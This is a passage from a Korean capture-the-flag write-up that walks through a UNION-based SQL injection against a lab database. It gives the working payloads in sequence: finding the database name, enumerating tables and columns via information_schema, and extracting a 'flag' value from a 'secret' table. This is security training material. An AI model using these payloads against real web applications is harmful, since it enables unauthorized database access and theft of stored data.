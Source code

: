 ```html
'+union+select+1,2,3,4,5,database()%23
```

출력 결과를 통해 현재 데이터베이스 이름은 **sqli_5**임을 확인하였다.

이어서 `information_schema.tables`를 활용하여 데이터베이스 내 테이블 이름을 조회하였다.

다음과 같은 쿼리를 통해 세 번째 테이블(**LIMIT 2,1**)을 조회한 결과, 테이블 이름으로 **secret**이 출력되었다.

```html
'+union+select+1,2,3,4,5,(select+table_name+from+information_schema.tables+where+table_schema='sqli_5'+limit+2,1)%23
```

`information_schema.columns`를 사용하여 `secret` 테이블의 컬럼명을 확인하기 위해 다음과 같은 쿼리를 입력하였다.

```html
'+union+select+1,2,3,4,5,(select+column_name+from+information_schema.columns+where+table_schema='sqli_5'+and+table_name='secret'+limit+0,1)%23
```

그 결과, 해당 테이블에는 **flag**라는 컬럼이 존재함을 확인하였다.

마지막으로, 다음과 같은 쿼리를 통해 실제 **flag 값**을 추출하였다.

```html
'+union+select+1,2,3,4,5,(select+flag+from+secret+limit+1,1)%23
```

![sql2 flag](/assets/web-screenshots/union-sqli/sql_2_flag.png)

이렇게 **flag를 획득** 하였다.

---

## 도박 관리자
